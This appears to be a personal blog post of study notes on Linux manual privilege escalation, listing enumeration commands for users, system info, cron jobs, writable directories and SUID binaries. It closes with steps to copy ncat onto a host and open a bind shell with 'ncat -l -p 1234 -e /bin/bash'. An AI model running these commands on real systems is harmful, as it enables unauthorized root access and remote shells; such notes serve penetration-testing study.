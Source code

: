 ```yaml
---
layout: post
title: Linux Manual Privilege Escalation
titledate: 09/17/23
tags: ["infosec", "info_gathering", "offsec", "privesc"]
---
```


#### linux enumeration

    $ id

tell us the current user, uid, and gid

    $ cat /etc/passwd

give us all users as well as potential installed services with users like www-data and sshd

    $ hostname

gives us the system hostname

    $ uname -a

    $ cat /etc/os-release

    $ cat /etc/issue

give us system info

    $ ps aux can list running processes

display networking interface information

    $ ipconfig 

    $ ip

print routing information 

    $ route

    $ routel

may be able to gather iptables information

    $ cat /etc/iptables/rules.v4

list linux scheduled tasks with cron

    $ ls -lah /etc/cron*

system admins may add task to the crontab

    $ sudo crontab -l

list installed packages of package manager

    $ dpkg -l

searching writeable directories

    $ find / -writable -type d 2>/dev/null

list mounted drives

    $ cat /etc/fstab

    $ mount

list all available disks

    $ lsblk

list driver and kernel modules

    $ lsmod

to list more info about a specific module

    $ /sbin/modinfo libata

### NOTE: if we can bypass a setuid root program to call a cmd of our choice we can impersonate the root user and gain equivalent access

    $ find / -perm -u=s -type f 2>/dev/null

search for SUID marked files

    $ cat binary |strings|grep 'word'

if we have a limited shell and don't have a good ncat we can copy one over to an executable dir

then forward our shell to a listening port 

    $ wget 

    $ /home/dev/bin/ncat -v -l -p 1234 -e /bin/bash